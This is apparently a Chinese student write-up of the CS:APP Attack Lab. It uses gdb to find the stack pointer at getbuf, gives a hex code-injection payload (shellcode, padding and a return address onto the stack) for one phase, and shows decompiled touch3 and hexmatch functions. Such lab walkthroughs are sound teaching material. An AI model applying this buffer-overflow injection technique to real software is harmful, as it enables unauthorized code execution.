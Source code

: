 ```

```

我们还需要知道栈指针的初始指向地址 从这个地方开始传入数据，所以要查看rsp

用gdb断点打在getbuf

用命令p/x $rsp

```
pwndbg> p /x $rsp
$1 = 0x5561dc78
```

我们需要传入的字符如下

```
48 c7 c7 fa 97 b9 59 68 ec 17 
40 00 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 
```

 

## touch3

```
void __fastcall __noreturn touch3(char *sval)
{
  vlevel = 3;
  if ( hexmatch(cookie, sval) )
  {
    __printf_chk(1LL, "Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```

调用hexmatch如下 去对比传入值和cookie是不是一样的

不过要注意strncmp()是字符串的比对我们还要用

man ascil查看cookie对应的16进制ASCII码

```
int __fastcall hexmatch(unsigned int val, char *sval)
{
  const char *v2; // rbx
  char cbuf[110]; // [rsp+0h] [rbp-98h] BYREF
  unsigned __int64 v5; // [rsp+78h] [rbp-20h]

  v5 = __readfsqword(0x28u);
  v2 = &cbuf[random() % 100];
  __sprintf_chk(v2, 1LL, -1LL, "%.8x", val);
  return strncmp(sval, v2, 9uLL) == 0;
}
```
